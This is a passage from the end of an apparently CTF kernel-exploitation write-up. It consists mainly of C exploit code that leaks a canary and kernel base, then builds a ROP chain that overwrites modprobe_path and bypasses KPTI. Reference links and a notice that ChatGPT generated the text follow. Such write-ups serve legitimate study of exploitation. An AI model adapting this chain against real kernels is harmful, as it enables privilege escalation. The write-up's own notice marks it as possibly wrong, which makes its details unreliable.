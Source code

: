 ```c
    core_set_offset(fd, 64);
    core_read(fd, name);
    canary = ((size_t *)name)[0];
    printf("\033[34m\033[1m[*] base: 0x%lx\033[0m\n", swapgs_restore_regs_and_return_to_usermode-0xa008da);
    printf("\033[34m\033[1m[*] offset: 0x%lx\033[0m\n", offset);
    printf("\033[33m\033[1m[√] Canary: %lx\033[0m\n", canary);

    for (i = 0; i < 10; i++) rop[i] = canary;
    rop[i++] = POP_RBX_RET + offset;
    rop[i++] = MODPROBE_PATH + offset;
    rop[i++] = POP_RAX_RET + offset;
    rop[i++] = *(size_t *) "/tmp/x";
    rop[i++] = MOV_PTR_RBX_RAX_POP_RBX_RET + offset;
    rop[i++] = *(size_t *) "muElnova";
    rop[i++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + offset;
    rop[i++] = *(size_t *) "muElnova";
    rop[i++] = *(size_t *) "muElnova";
    rop[i++] = (size_t) getFlag;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x100);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}
```

## References

https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/

[Kernel Pwn ROP bypass KPTI - Wings' Blog (wingszeng.top)](https://blog.wingszeng.top/kernel-pwn-rop-bypass-kpti/)

:::info
This Content is generated by ChatGPT and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::


